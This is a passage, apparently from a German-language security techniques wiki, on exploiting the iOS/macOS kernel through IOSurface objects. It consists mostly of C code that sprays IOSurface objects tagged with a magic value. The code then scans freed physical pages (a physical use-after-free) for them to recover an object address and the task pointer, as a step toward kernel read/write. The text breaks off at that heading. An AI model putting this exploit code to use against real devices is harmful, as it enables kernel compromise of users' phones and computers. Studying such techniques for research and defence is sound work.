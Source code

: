 Generieren Sie IOSurface-Objekte mit dem magischen Wert IOSURFACE_MAGIC, um später danach zu suchen:
```c
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
if (*nClients >= 0x4000) return;
for (int i = 0; i < nSurfaces; i++) {
fast_create_args_t args;
lock_result_t result;

size_t size = IOSurfaceLockResultSize;
args.address = 0;
args.alloc_size = *nClients + 1;
args.pixel_format = IOSURFACE_MAGIC;

IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
io_connect_t id = result.surface_id;

(*clients)[*nClients] = id;
*nClients = (*nClients) += 1;
}
}
```
Suche nach **`IOSurface`**-Objekten in einer freigegebenen physischen Seite:
```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
int nSurfaceIDs = 0;

for (int i = 0; i < 0x400; i++) {
spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);

for (int j = 0; j < nPages; j++) {
uint64_t start = puafPages[j];
uint64_t stop = start + (pages(1) / 16);

for (uint64_t k = start; k < stop; k += 8) {
if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
info.object = k;
info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
if (self_task) *self_task = iosurface_get_receiver(k);
goto sprayDone;
}
}
}
}

sprayDone:
for (int i = 0; i < nSurfaceIDs; i++) {
if (surfaceIDs[i] == info.surface) continue;
iosurface_release(client, surfaceIDs[i]);
}
free(surfaceIDs);

return 0;
}
```
### Erreichen von Kernel Read/Write mit IOSurface
